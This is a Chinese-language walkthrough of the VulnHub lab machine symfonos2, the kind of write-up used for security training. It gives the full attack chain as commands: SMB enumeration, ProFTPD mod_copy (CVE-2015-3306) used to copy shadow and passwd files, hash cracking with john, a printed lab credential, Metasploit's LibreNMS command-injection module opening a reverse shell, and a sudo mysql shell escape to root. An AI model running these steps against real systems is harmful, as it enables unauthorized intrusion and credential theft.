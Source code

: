 # symfonos2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-2,331/

**Description**

OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.

**知识点**
- smb 信息探测
- CVE-2015-3306
- CVE-2018-20434
- shadow 密码爆破

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.149` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.149
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/2.png)

21、22、80、139、445

怎么又有 smb,枚举下 smb 试试
```bash
enum4linux 192.168.141.149
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/3.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/4.png)

找到一个 `/anonymous` 文件夹和 2个用户,进去看看文件
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
cd backups\
ls
get log.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/5.png)

查看下 log.txt 可以发现很多线索

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/6.png)

开头告诉你 shadow 内容在 backups 目录下,然后后面是 smb 的配置,有个密码

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/7.png)

然后开始看 ftp 的配置,配置文件说明了是 ProFTPD 程序，还告诉你有个 aeolus 账号

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/8.png)

想起来之前 nmap 扫描 FTP 得到的版本号是 1.3.5,也许可以找找漏洞
```bash
searchsploit -w proftpd 1.3.5
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/9.png)

这3个都一样,漏洞编号为 CVE-2015-3306,但是这个漏洞只是可以复制文件,并不能直接进行命令执行,并且需要知道目标路径

---

# 中期-漏洞利用

这里我们从 log.txt 中可以得知 anonymous 用户的实际路径为 `/home/aeolus/share`,加上开头告诉你 shadow 文件在 backup 目录下,接下来就尝试将 backup目录下的 shadow 复制到 anonymous 用户目录下

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/10.png)

```bash
ftp 192.168.141.149
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/11.png)

成功了,上 smb 下载下来
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
get shadow.txt
exit
cat shadow.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/12.png)

下面用同样的方式下载 passwd 文件
```bash
ftp 192.168.141.149
site cpfr /etc/passwd
site cpto /home/aeolus/share/passwd.txt

smbclient //192.168.141.149/anonymous -U % -N
get passwd.txt
exit

mkdir /root/.john
cp passwd.txt /root/.john
cp shadow.txt /root/.john
cd /root/.john
unshadow passwd.txt shadow.txt > hash.txt
cat hash.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/13.png)

使用 john 开始跑 hash
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/14.png)

只跑出 aeolus 一个用户的密码,使用这个凭证成功 SSH 上去
```
aeolus  sergioteamo
```

找找提权的可能
```bash
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/15.png)

没成功,看看 web 方面

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/16.jpg)

又是啥都没有,直接翻 web 配置文件看看
```bash
cd /etc/apache2
cat apache2.conf
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/17.png)

看看这个端口监听文件
```bash
cat ports.conf
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/18.png)

端口 8080 有个无法从外部访问的网站,端口转发一下
```bash
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

现在 8080 可以通过 5000 端口访问

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/19.png)

找找有没有可利用的漏洞
```bash
searchsploit -w librenms
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/20.png)

看了下,需要认证,结果用 aeolus  sergioteamo 可以登上去,那就用 msf 模块试试

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/21.png)

```bash
msfconsole
search librenms
use exploit/linux/http/librenms_addhost_cmd_inject
set RHOST 192.168.141.149
set LHOST 192.168.141.134
set PORT 5000
set USERNAME aeolus
set PASSWORD sergioteamo
run
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/22.png)

---

# 后期-提权

寻找提权利用点
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/23.png)

可以在 gtfobin 找到 mysql 提权的方法 https://gtfobins.github.io/gtfobins/mysql/
```
sudo mysql -e '\! /bin/sh'
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/24.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
